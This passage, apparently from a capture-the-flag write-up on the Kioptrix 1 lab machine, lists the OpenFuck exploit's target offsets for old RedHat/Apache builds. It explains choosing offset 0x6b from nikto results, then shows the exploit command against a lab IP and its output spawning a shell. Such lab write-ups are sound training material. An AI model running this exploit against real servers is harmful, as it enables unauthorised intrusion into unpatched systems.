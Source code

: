 ```bash
        0x4e - RedHat Linux 6.0 (apache-1.3.6-7)
        0x4f - RedHat Linux 6.0 (apache-1.3.6-7)
        0x50 - RedHat Linux 6.0-Update (apache-1.3.14-2.6.2)
        0x51 - RedHat Linux 6.0 Update (apache-1.3.24)
        0x52 - RedHat Linux 6.1 (apache-1.3.9-4)1
        0x53 - RedHat Linux 6.1 (apache-1.3.9-4)2
        0x54 - RedHat Linux 6.1-Update (apache-1.3.14-2.6.2)
        0x55 - RedHat Linux 6.1-fp2000 (apache-1.3.26)
        0x56 - RedHat Linux 6.2 (apache-1.3.12-2)1
        0x57 - RedHat Linux 6.2 (apache-1.3.12-2)2
        0x58 - RedHat Linux 6.2 mod(apache-1.3.12-2)3
        0x59 - RedHat Linux 6.2 update (apache-1.3.22-5.6)1
        0x5a - RedHat Linux 6.2-Update (apache-1.3.22-5.6)2
        0x5b - Redhat Linux 7.x (apache-1.3.22)
        0x5c - RedHat Linux 7.x (apache-1.3.26-1)
        0x5d - RedHat Linux 7.x (apache-1.3.27)
        0x5e - RedHat Linux 7.0 (apache-1.3.12-25)1
        0x5f - RedHat Linux 7.0 (apache-1.3.12-25)2
        0x60 - RedHat Linux 7.0 (apache-1.3.14-2)
        0x61 - RedHat Linux 7.0-Update (apache-1.3.22-5.7.1)
        0x62 - RedHat Linux 7.0-7.1 update (apache-1.3.22-5.7.1)
        0x63 - RedHat Linux 7.0-Update (apache-1.3.27-1.7.1)
        0x64 - RedHat Linux 7.1 (apache-1.3.19-5)1
        0x65 - RedHat Linux 7.1 (apache-1.3.19-5)2
        0x66 - RedHat Linux 7.1-7.0 update (apache-1.3.22-5.7.1)
        0x67 - RedHat Linux 7.1-Update (1.3.22-5.7.1)
        0x68 - RedHat Linux 7.1 (apache-1.3.22-src)
        0x69 - RedHat Linux 7.1-Update (1.3.27-1.7.1)
        0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
        0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
        0x6c - RedHat Linux 7.2-Update (apache-1.3.22-6)
        0x6d - RedHat Linux 7.2 (apache-1.3.24)
        0x6e - RedHat Linux 7.2 (apache-1.3.26)
        0x6f - RedHat Linux 7.2 (apache-1.3.26-snc)
		.
		.
		.
		more such platforms
```

The `nikto` scan provided insights into the platform type and Apache version, leaving me with two options: `0x6a` and `0x6b`. After attempting both, I successfully gained access as root using `0x6b`.

![](https://cdn.ziomsec.com/kioptrix1/5.webp)

```bash
$ ./a.out 0x6b 192.168.1.104 443 -c 40
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
```